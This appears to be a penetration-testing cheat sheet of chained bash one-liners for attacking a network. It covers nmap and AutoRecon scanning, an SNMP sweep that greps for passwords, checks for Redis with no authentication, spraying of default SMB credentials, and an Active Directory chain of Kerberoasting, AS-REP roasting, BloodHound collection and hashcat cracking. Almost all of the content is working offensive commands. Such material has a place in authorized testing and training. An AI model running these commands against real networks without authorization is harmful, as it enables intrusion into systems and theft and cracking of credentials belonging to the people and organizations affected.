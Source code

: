 # One-Liner Command Chains

---

## Network Discovery & Enumeration

### Complete Network Discovery Chain
```bash
# Find live hosts → Port scan → Service enum → Save results
nmap -sn 10.10.10.0/24 -oG - | grep "Up" | cut -d' ' -f2 > targets.txt && \
nmap -iL targets.txt --top-ports 1000 -oA quick_scan && \
nmap -p- -sV -sC -iL targets.txt -oA full_scan &
```

### Start AutoRecon on Everything
```bash
# Scan all targets and background it
autorecon -t targets.txt -o ~/results/ -v 2>&1 | tee autorecon.log &
```

---

## Quick Win Checks

### SNMP Credential Sweep
```bash
# Find SNMP → Test default community → Extract credentials
sudo nmap -sU -p 161 --open 10.10.10.0/24 | grep "Discovered open port" | cut -d' ' -f6 | while read ip; do snmpwalk -v2c -c public $ip | grep -i "password\|credential"; done
```

### Redis No-Auth Check
```bash
# Test all hosts for unauthenticated Redis
for ip in 10.10.10.{1..254}; do redis-cli -h $ip ping 2>/dev/null && echo "$ip - NO AUTH!"; done
```

### Default Credential Spray
```bash
# Test admin:admin across all SMB
netexec smb 10.10.10.0/24 -u admin -p admin --continue-on-success
```

---

## Active Directory

### Complete AD Quick Assessment
```bash
# SMB signing → Kerberoast → AS-REP roast → BloodHound → Start cracking (all in background)
netexec smb DC_IP --gen-relay-list relay.txt && \
impacket-GetUserSPNs DOMAIN/USER:PASS -dc-ip DC_IP -request -outputfile kerberoast.txt & \
impacket-GetNPUsers DOMAIN/USER:PASS -dc-ip DC_IP -request -outputfile asrep.txt & \
bloodhound-python -u USER -p 'PASS' -d DOMAIN -ns DC_IP -c All --zip & \
sleep 60 && hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt & \
hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt &
```

